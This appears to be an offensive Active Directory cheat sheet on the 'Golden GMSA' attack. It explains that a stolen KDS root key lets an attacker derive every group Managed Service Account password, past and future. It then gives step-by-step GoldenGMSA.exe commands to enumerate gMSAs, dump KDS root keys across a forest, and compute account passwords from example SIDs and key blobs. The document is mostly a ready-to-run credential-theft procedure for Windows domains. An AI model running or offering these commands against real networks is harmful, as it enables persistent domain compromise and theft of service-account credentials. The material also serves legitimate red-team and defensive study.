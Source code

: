 # Golden GMSA

### One notable difference between a Golden Ticket attack and the Golden GMSA attack is that they no way of rotating the KDS root key secret. Therefore, if a KDS root key is compromised, there is no way to protect the gMSAs associated with it.

## WARNING!: You can't "force reset" a gMSA password, because a gMSA's password never changes. The password is derived from the KDS root key and ManagedPasswordIntervalInDays , so every Domain Controller can at any time compute what the password is, what it used to be, and what it will be at any point in the future.

## Tool: GoldenGMSA https://github.com/Semperis/GoldenGMSA

#### 1) Enumerate all gMSAs

 - GoldenGMSA.exe gmsainfo

#### 2) Query for a specific gMSA

 - GoldenGMSA.exe gmsainfo --sid S-1-5-21-1437000690-1664695696-1586295871-1112

#### 3) Dump all KDS Root Keys

 - GoldenGMSA.exe kdsinfo

### With the --forest argument specifying the target domain or forest, SYSTEM privileges are required on the corresponding domain or forest Domain Controller. In case a child domain is specified, the parent domain keys will be dumped as well.

 - GoldenGMSA.exe kdsinfo --forest child.lab.local

#### 4) Dump a specific KDS Root Key

 - GoldenGMSA.exe kdsinfo --guid 46e5b8b9-ca57-01e6-e8b9-fbb267e4adeb

#### 5) Compute gMSA password

### --sid <gMSA SID>: SID of the gMSA (required)

### --kdskey <Base64-encoded blob>: Base64 encoded KDS Root Key

### --pwdid <Base64-encoded blob>: Base64 of msds-ManagedPasswordID attribute value

 - GoldenGMSA.exe compute --sid S-1-5-21-1437000690-1664695696-1586295871-1112 # requires

 - GoldenGMSA.exe compute --sid S-1-5-21-1437000690-1664695696-1586295871-1112 --kdskey "AQA[...]jG2/M=" --pwdid "AQAAAEtEU[...]gBsAGEAYgBzAAAA"

 
